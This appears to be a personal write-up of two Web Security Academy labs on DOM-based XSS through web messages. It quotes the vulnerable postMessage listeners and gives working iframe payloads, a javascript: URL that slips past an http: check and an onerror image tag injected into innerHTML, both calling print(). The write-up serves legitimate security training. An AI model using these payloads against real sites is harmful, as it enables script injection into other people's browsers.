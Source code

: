 # Encounters

# DOM XSS using web messages and a JavaScript URL
Get print()
## Observations
- There aren't any obvious sinks on the blog page - it takes comments. 
- I've been provided an exploit server. so there's that. 
- Not on the blog/comment pages. There is a JS script block in the home page:
```
 <script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```
The script block is message passing to navigation. It listens for a postMessage event. The event (e) has a data object which is copied into a URL. If the URL has http: or https: then it redirects the current page to the location.href=url. So if we embed the page in an iframe and provide the right payload we can execute XSS. 
The trick is going to be satisfying the http:/https: requirement and getting execution when we don't have a page on the site that allows for XSS right now. It may be a variation of javascript:print() that satisfies the requirement. 
```
<iframe
  src="https://0ad3002b036533f0802a0db0007400cc.web-security-academy.net/"
  onload="this.contentWindow.postMessage(
    'javascript:print(1)//http:',
    '*'
  )">
</iframe>
```
This sends the appropriate javascript payload then escapes the rest of the javascript with a comment (//)

# DOM XSS using web messages
get print()
## Observations
```
<div id='ads'>
</div>
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```
Embeding a post message in an iframe will trigger the payload to go into the ads div tag. 
```
<iframe
  src="https://0aec00a4036df1cc820a0b6c00710049.web-security-academy.net/"
  onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
</iframe>
```
Its as simple as providing an XSS payload. 
